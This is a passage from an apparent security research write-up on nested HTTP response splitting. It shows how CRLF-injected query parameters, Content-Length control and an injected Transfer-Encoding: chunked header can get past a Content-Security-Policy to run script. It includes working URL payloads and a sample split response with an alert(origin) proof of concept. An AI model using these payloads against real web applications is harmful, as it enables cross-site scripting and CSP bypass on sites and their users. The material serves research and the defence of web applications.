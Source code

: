 If response header `Content-Length` is in above of injection point and its value can be controlled, ([Appendix 2](#appendix-2-code-snippet-for-controlling-content-length-response-headers-value)), we can just change its value to the length of our JavaScript payload:

```
/static/markdown/example.md?type=text/html%0d%0a%0d%0a%3Cscript+src=%22/static/css/main.css?type=text/javascript%250d%250a%250d%250aalert(origin)%26length=13%22%3E%3C/script%3E
```

Injected response body data:

```html
<script src="/static/css/main.css?type=text/javascript%0d%0a%0d%0aalert(origin)&length=13"></script>
```

## HTTP/1.1 Trick: Transfer-Encoding With chunked Encoding

If the web application or server uses **HTTP/1.1** ([Appendix 3](#appendix-3-code-snippet-for-transfer-encoding-trick-in-http11)), we can override the `Content-Length` response header by injecting `Transfer-Encoding` header with `chunked` encoding.

> Note: For more information about `Transfer-Encoding` header with `chunked` encoding, you could read [this PortSwigger web security academy about request smuggling](https://portswigger.net/web-security/request-smuggling#how-do-http-request-smuggling-vulnerabilities-arise).

As per the [HTTP/1.1 specification](https://www.rfc-editor.org/rfc/rfc9112#section-6.1-14), response header `Transfer-Encoding` will override `Content-Length` header:
> Early implementations of Transfer-Encoding would occasionally send both a chunked transfer coding for message framing and an estimated Content-Length header field for use by progress bars. **This is why Transfer-Encoding is defined as overriding Content-Length, as opposed to them being mutually incompatible.**
>   
> [...]
>   
> A server MAY reject a request that contains both Content-Length and Transfer-Encoding **or process such a request in accordance with the Transfer-Encoding alone.**

```
/static/markdown/example.md?type=text/html%0d%0a%0d%0a%3Cscript+src=%22/static/css/main.css?type=text/javascript%250d%250aTransfer-Encoding%3a%2520chunked%250d%250a%250d%250ad%250d%250aalert(origin)%250d%250a0%250d%250a%250d%250a%22%3E%3C/script%3E
```

Nested response splitting's response:

```http
HTTP/1.1 200 OK
Content-Security-Policy: default-src 'none'; script-src 'self';
Content-Length: 180
Content-Type: text/javascript
Transfer-Encoding: chunked

d
alert(origin)
0

<junk_text_here>
```
